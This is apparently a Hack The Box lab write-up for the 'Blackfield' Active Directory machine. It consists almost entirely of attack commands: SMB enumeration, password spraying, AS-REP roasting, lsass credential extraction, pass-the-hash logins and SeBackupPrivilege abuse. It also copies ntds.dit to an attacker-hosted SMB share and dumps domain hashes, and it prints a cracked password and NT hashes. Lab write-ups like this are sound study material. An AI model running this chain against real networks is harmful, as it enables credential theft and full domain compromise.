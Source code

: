 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.192
nmap -sU -T5 10.10.10.192
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fbd9d1ba-1de4-40ac-9315-7e4696e0411e)

![image](https://github.com/regarmulia/HTB/assets/33616880/61dfed10-6cd7-4e56-86b3-6de25c80beca)

```
smbclient -L \\\\10.10.10.192\\
smbclient \\\\10.10.10.192\\profiles$

RECURSE ON
PROMPT OFF
mget *
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6270846a-059e-44b7-8ea9-b85e2b4580fe)

```
ls -la | awk -F' ' '{print $9}' > users2.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8356828b-c804-409c-9614-eb7a07575f9c)

```
./kerbrute_linux_amd64 userenum --dc 10.10.10.192 -d BLACKFIELD.local /home/itsec/Documents/HTB-Blackfield/users2.txt
audit2020@BLACKFIELD.local
svc_backup@BLACKFIELD.local
support@BLACKFIELD.local
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8351ac91-ddd0-4beb-b7a5-07b826d5ea17)

```
crackmapexec smb 10.10.10.192 -u users1.txt -p /usr/share/wordlists/rockyou.txt
smbclient -L \\\\10.10.10.192\\ -U BLACKFIELD.local/audit2020@BLACKFIELD.local
```
![image](https://github.com/regarmulia/HTB/assets/33616880/85ac138e-3b1c-425d-a7e0-02a1459f064c)

![image](https://github.com/regarmulia/HTB/assets/33616880/8e443d07-17a2-4bb0-9581-bce86b966fce)

```
./GetNPUsers.py blackfield.local/ -no-pass -usersfile users1.txt -dc-ip 10.10.10.192
john hash1 -w=/usr/share/wordlists/rockyou.txt
#00^BlackKnight
```
![image](https://github.com/regarmulia/HTB/assets/33616880/cd8865bb-864f-46ec-a29a-696611744770)

```
neo4j console
bloodhound
git clone https://github.com/dirkjanm/BloodHound.py.git
python3 bloodhound.py -d BLACKFIELD.local -u support -p '#00^BlackKnight' -ns 10.10.10.192 -c All
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5f5252e0-d56f-416b-aaf0-8199b768611d)

![image](https://github.com/regarmulia/HTB/assets/33616880/690ab874-b2ed-44ad-bcb1-7c905f601270)

![image](https://github.com/regarmulia/HTB/assets/33616880/32338d7d-8555-4e26-a012-c3c73abde14f)

```
Raw Query: MATCH p=(u {owned: true})-[r1]->(n) WHERE r1.isacl=true RETURN p
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ce0c48d4-04cd-4b3e-a357-3cc24d23fd19)

```
rpcclient -U blackfield/support 10.10.10.192
setuserinfo audit2020 23 H@CKTHEB0X#
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3fcc9b61-e949-403c-b3d0-0f1ba9be236a)

```
crackmapexec smb 10.10.10.192 -u audit2020 -p H@CKTHEB0X# --shares
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c73a397a-31c3-4313-aa78-b82fe0c9cb65)

```
smbclient \\\\10.10.10.192\\forensic -U BLACKFIELD.local/audit2020
mget *
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9cdfea40-0d79-4ece-a450-5ed8604b2335)

![image](https://github.com/regarmulia/HTB/assets/33616880/8c7006c9-71e4-4385-b060-5935ca36c2b1)

![image](https://github.com/regarmulia/HTB/assets/33616880/00b5ff21-a352-44d2-bb4d-edd7d42e6538)

```
pypykatz lsa minidump lsass.DMP
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ac6320b3-ffcf-45b9-978f-fff33a0cb42c)

```
pypykatz lsa minidump lsass.DMP | grep 'NT:' | awk '{ print $2 }' | sort -u > hashes2
pypykatz lsa minidump lsass.DMP | grep 'Username:' | awk '{ print $2 }' | sort -u > users2
```
![image](https://github.com/regarmulia/HTB/assets/33616880/67de1db3-ce5b-473e-bc56-0830ba2c0aa3)

![image](https://github.com/regarmulia/HTB/assets/33616880/5d9c4b09-a763-4a23-9699-47c2fdee4885)

```
crackmapexec smb 10.10.10.192 -u users2 -H hashes2
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2f3fa841-a28a-4cec-a91c-646e37b6e8eb)

![image](https://github.com/regarmulia/HTB/assets/33616880/40295828-c67e-423a-9faa-709ea9d8f29e)

```
whoami /priv
```
![image](https://github.com/regarmulia/HTB/assets/33616880/99ce04fc-b535-454b-9415-909b01ac2c76)

```
robocopy /b C:\Users\Administrator\Desktop\ C:\
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d74df300-d472-4da8-b81b-ad4f1f632746)

![image](https://github.com/regarmulia/HTB/assets/33616880/d8f521b9-4937-403d-b9e2-d10cb0bfdf00)

```
git clone https://github.com/giuliano108/SeBackupPrivilege.git
cd C:\programdata
upload SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
upload SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8918071a-bc69-46c9-a0e8-ddce40280dff)

![image](https://github.com/regarmulia/HTB/assets/33616880/c311daad-df7a-4bcc-b229-70f7a2c76260)

```
import-module .\SeBackupPrivilegeCmdLets.dll
import-module .\SeBackupPrivilegeUtils.dll
cd C:\windows\system32\config
type netlogon.dns
Copy-FileSeBackupPrivilege netlogon.dns \programdata\netlogon.dns
type \programdata\netlogon.dns
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1c0b388c-25d4-4184-bb14-3c61515f856f)

![image](https://github.com/regarmulia/HTB/assets/33616880/2ee6d268-90fc-47d1-94bd-dc4f77972e9b)

```
Copy-FileSeBackupPrivilege \users\administrator\desktop\root.txt 0xdf.txt
Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit .
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fecb8fe9-4740-46b8-a14b-d3479761ef23)

```
https://pentestlab.blog/tag/diskshadow/
upload vss.dsh c:\programdata\vss.dsh
diskshadow /s c:\programdata\vss.dsh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6d7f6af1-934b-4279-b5eb-e8c788d625b4)

![image](https://github.com/regarmulia/HTB/assets/33616880/95425630-c31e-492a-9b94-1ddcd202f19d)

```
unix2dos vss.dsh
```
```
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d2c6e1b2-b0fb-4966-b838-a601662324bb)

```
./smbserver.py s . -smb2support -username df -password df
net use \\10.10.14.13\s /u:df df
Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.14.13\s\ntds.dit
Copy-FileSeBackupPrivilege z:\Windows\system32\config\SYSTEM \\10.10.14.6\s\SYSTEM
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ace2cfb7-7a8e-45dd-a6f7-0d9962f32d5b)

![image](https://github.com/regarmulia/HTB/assets/33616880/b5095fad-0969-4aea-8fc9-5f61ff515ed2)

![image](https://github.com/regarmulia/HTB/assets/33616880/03292ed3-ef4c-40d9-824d-d0ad1fea814c)

```
./secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
```
![image](https://github.com/regarmulia/HTB/assets/33616880/401b1100-989a-4eb6-861c-617b767fe70e)

```
evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ba294f55-c00a-4a3a-8c26-2111bc1c8a5e)
